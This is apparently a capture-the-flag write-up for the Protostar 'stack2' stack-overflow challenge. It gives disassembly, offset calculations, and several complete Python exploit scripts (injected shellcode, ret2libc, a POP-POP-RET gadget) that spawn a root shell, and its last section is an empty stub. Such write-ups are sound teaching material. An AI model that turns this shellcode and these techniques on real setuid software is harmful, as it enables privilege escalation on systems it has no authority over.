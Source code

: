 # stack2

## solution
Quick disassembly to see the offsets of the variables stored in the binary.
```
[0x080483e0]> pdf @main
            ; DATA XREF from entry0 @ 0x80483f7
┌ 128: int main (int argc, char **argv, char **envp);
│           ; var char *src @ esp+0x4
│           ; var char *dest @ esp+0x18
│           ; var int32_t var_ch @ esp+0x58
│           ; var char *var_8h @ esp+0x5c
```

As the contents of `arg_ch` is copied into the `dest` variable, the size of the offset is the
distance from the start of the `dest` buffer to the `var_ch` variable, which we need to modify.
```
>>> 0x58 - 0x18
64
```

To solve the challenge, we need to change the `var_ch` variable to `0d0a0d0a`.
``
```
user@protostar:/opt/protostar/bin$ GREENIE=$(python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"') ./stack2
you have correctly modified the variable
```

## shells

### classic buffer overflow
First we need to find the offset from the start of the buffer to the %eip register, so we can
redirect process execution. We can do this by giving it a known pattern of bytes, in this case
`BBBBCCCCDDDD`, and so on.
```
(gdb) set env GREENIE AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGG
(gdb) r
Starting program: /opt/protostar/bin/stack2 
Try again, you got 0x42424242

Program received signal SIGSEGV, Segmentation fault.
0x47474747 in ?? ()
```

Since %eip was overwritten with `47474747` the offset is easily calculated as 84 bytes.

```py
import struct

off = 84

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0xbffff68c + 0x80)

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ GREENIE=$(python /tmp/pwn.py) ./stack2
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2libc
Read stack0 to see how we calculated the appropriate offsets for `libc`, `system` and `/bin/sh`
required for this ret2libc exploit.

```py
import struct

off = 84

pad = 'A' * off

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

print pad + system + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ GREENIE=$(python /tmp/pwn.py) ./stack2
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2.text to shellcode
First we need to find a POP, POP, RET gadget in the target binary. We can do this with
`msfelfscan`.
```
➜  stack git:(master) ✗ msfelfscan -s -f stack2
0x08048587   edi ebp ret
0x08048462   ebx ebp ret
0x080485b7   ebx ebp ret
```

```py
import struct

off = 84

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048587)

ret += 'AAAA'                              # POP
ret += 'AAAA'                              # POP
ret += struct.pack('I', 0xbffff68c + 0x80) # RET

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ GREENIE=$(python /tmp/pwn.py) ./stack2
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2.text to libc
...
